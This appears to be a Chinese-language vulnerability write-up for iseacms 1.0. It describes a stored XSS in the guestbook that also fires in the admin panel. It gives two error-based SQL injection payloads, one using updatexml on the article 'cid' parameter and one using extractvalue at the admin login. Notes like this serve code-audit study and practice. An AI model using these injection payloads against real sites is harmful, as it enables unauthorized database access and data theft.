








### iseacms（熊海）

```
版本信息：1.0
```

#### 前台留言XSS

在【联系】下方的留言处插入payload

前台触发





后台管理员查看留言也会触发





#### 文章处SQL注入

随意点开一篇文章



在cid处存在漏洞




使用报错注入获取数据库名

```
and(updatexml(1,concat(0x7e,(select%20database()),0x7e),1))
```




#### 后台登录处SQL注入

输入1'即可引起报错


```
1' and (extractvalue(1,concat(0x7e,(select database()),0x7e))) #
```






